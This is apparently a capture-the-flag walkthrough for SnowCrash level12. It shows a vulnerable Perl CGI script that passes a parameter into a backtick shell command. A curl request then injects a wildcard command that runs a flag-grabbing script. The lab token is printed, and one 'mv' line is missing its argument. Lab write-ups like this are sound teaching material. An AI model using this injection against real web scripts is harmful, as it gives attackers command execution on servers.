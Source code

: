 level12@SnowCrash:~$ ls
a.sh  level12.pl
level12@SnowCrash:~$ cat level12.pl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
level12@SnowCrash:~$ cat a.sh
getflag > /tmp/mami
level12@SnowCrash:~$ mv /tmp/A
level12@SnowCrash:~$ curl "localhost:4646?x=\`/*/A\`"
..level12@SnowCrash:~$ cat /tmp/mami
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr